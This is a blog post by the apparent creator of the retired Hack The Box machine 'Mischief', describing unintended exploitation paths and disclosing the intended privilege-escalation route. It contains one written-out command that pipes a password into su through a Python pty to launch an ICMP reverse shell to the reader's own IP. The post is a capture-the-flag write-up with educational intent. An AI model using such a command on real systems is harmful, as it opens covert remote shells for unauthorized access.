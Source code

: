 ```yaml
---
layout: post
title: Hack The Box Mischief Story
tags: []
---
```

Hello everyone, this is the creator of the Mischief machine.
First of all thank you for all your amazing comments about my machine. I really appreciate them.
Here are a few comments that i have seen you guys talking about it.


[![](https://trickster0.files.wordpress.com/2019/02/soup.png)](https://trickster0.files.wordpress.com/2019/02/soup.png)

This machine had some unexpected turns about the escalations and some other bugs. I have fully patched it on my personal lab but it would take too much effort to fix it on Hack the box.
Obviously it was made to have only ONE solution. It looks like noone have found it or maybe someone did but i never saw it on comments.
So first of all the issues started from the apache page. This page was supposed to be completely blind RCE but i fucked up :D (I am no web developer)
The next mistake was preventing IPv6 outbound traffic. I fucked up once more with the iptables on IPv6.
LXC was not an intended way at all but this vulnerability came by default with Ubuntu 18.04!
Someone found a couple of different ways that i didn't even know existed like systemd-run and pkttyagent. Now i know them.
So i will leak you the actual solution here since the machine has been retired.
So since the first mistake happened in the apache page, the way to get the password for loki user is indeed icmp data exfiltration! Some people found this.
Then the root... How it was planned to happen... Since you would have obtained the password of root from the bash history like you did, then you would have to SCP an ICMP shell like ish.
ICMP shells are required to be run as root to work on linux, so the way to do this , was (it was partially found) from the apache page through su which was enabled.
The command that you should have ran is this: 
(sleep 1; echo lokipasswordmischieftrickery) | python -c "import pty; pty.spawn(['/bin/su','-c','/dev/shm/ish -i 65535 -t 0 -p 1024 yourip']);"

I hope  you liked the actual method. The purpose of my machines have always been , to make you learn new things that will actually help you in your pentests in real life or just allow you to gain more knowledge.

I consider this machine Part 2 of my series, by first being sneaky. There will be one more machine, which will be the final one! I can tell you that it will push you to learn new things and level up in terms of knowledge.
One more thing that i can spoil is that it will be a windows machine.

Cheers everyone thanks for your support take care!

